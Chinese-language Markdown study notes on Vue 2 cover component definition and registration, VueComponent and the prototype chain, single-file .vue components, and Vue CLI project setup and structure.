


### 非单文件组件

- Vue 中使用组件的三大步骤
  - 定义组件（创建组件）
  - 注册组件
  - 使用组件（写组件标签）
- 如何定义一个组件？
  - 使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个 `options` 几乎一样,但也有点区别：
  - 区别如下：
    - `el`不要写，为什么?————最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器.
    - `data`必须写成函数，为什么?————避免组件被复用时,数据存在引用关系。
  - 备注:使用 template 可以配置组件结构。
- 如何注册组件?
  - 局部注册:靠 `new Vue `的时候传入 `components` 选项
  - 全局注册:靠 `Vue.component('组件名’,组件)`
- 三、编写组件标签:
  - `<school></school>`
- 几个注意点:
  - 关于组件名:
    - 一个单词组成:
      - 第一种写法(首字母小写):`school`
      - 第二种写法(首字母大写):`School`
    - 多个单词组成:
      - 第一种写法(kebab-case 命名):`my-school`
      - 第二种写法(CamelCase 命名):`MySchool`（需要 Vue 脚手架支持)
    - 备注:
      - 组件名尽可能回避 HTML 中已有的元素名称，例如: h2、H2 都不行。
      - 可以使用 name 配置项指定组件在开发者工具中呈现的名字-
  - 关于组件标签:
    - 第一种写法:`<school></school>`
    - 第二种写法: `<school/>`
    - 备注:不用使用脚手架时，`<school/>`会导致后续组件不能渲染。
  - 一个简写方式:
    - `const school = Vue.extend(options)`可简写为: `const school = options`

### VueComponent

- school 组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
- 我们只需要写`<school/>`或`<school></school>`，Vue 解析时会帮我们创建 school 组件的实例对象，即 vue 帮我们执行的: `new VueComponent(options)`。
- 特别注意:每次调用 `Vue.extend`，返回的都是一个全新的 `VueComponent`!!!!
- 关于 `this` 指向:
  - 组件配置中:
    - data 函数、methods 中的函数、watch 中的函数、computed 中的函数它们的 this 均是【VueComponent 实例对象】.
  - `new Vue(options)`配置中:
    - data 函数、methods 中的函数、watch 中的函数、computed 中的函数它们的 this 均是【Vue 实例对象】。
- `VueComponent` 的实例对象，以后简称 vc（也可称之为:组件实例对象）。
  - Vue 的实例对象，以后简称 vm.

<br>

- 一个重要的内置关系:`VueComponent.prototype._proto_ == Vue.prototype`
- 为什么要有这个关系:让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。
  

### 单文件组件

- 一个`.vue`文件的组成(三个部分)

  ```
  <template>
    页面模板
  </template>

  <script>
  // 引入组件
  import *** from './***.vue'
  import *** from './***.vue'
  export default {
    JS 模块对象
  }
  </script>

  <style>
    样式定义
  </style>
  ```

## Vue 脚手架

- Vue 脚手架也叫 Vue CLI ，CLI 全名为 command line interface
- Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）。
- 文档: https://cli.vuejs.org/zh/。

### Vue 脚手架使用步骤

- 第一步（仅第一次执行）：全局安装@vue/cli。
  `npm install -g @vue/cli`
- 第二步：切换到你要创建项目的目录，然后使用命令创建项目
  `vue create xxxx`
- 第三步：启动项目
  `npm run serve`
- 备注：
  - 如出现下载缓慢请配置 npm 淘宝镜像：`npm config set registry` https://registry.npm.taobao.org
  - Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpack 配置，请执行：`vue inspect > output.js`

### 模板项目的结构

- 项目目录

  - `node_modules`
  - `public`
    - `favicon.ico` : 页签图标
    - `index.html` : 主页面
  - `src`
    - `assets` : 存放静态资源
      - `logo.png`
    - `component` : 存放组件
      - `HelloWorld.vue`
    - `App.vue` : 汇总所有组件
    - `main.js` : 入口文件
  - `.gitignore` : git 版本管制忽略的配置
  - `babel.config.js` : babel 的配置文件
  - `package.json` : 应用包配置文件
  - `package-lock.json` ：包版本控制文件
  - `README.md` : 应用描述文件

- 关于不同版本的 Vue:
  - `vue.js `与 `vue.runtime.xxx.js` 的区别:
    - `vue.js `是完整版的 Vue,包含:核心功能+模板解析器。
    - `vue.runtime.xxx.js` 是运行版的 Vue，只包含:核心功能;没有模板解析器。
  - 因为 `vue.runtime.xxx.js` 没有模板解析器，所以不能使用 template 配置项，需要使用 render 函数接收到的 `createElement` 函数去指定具体内容。
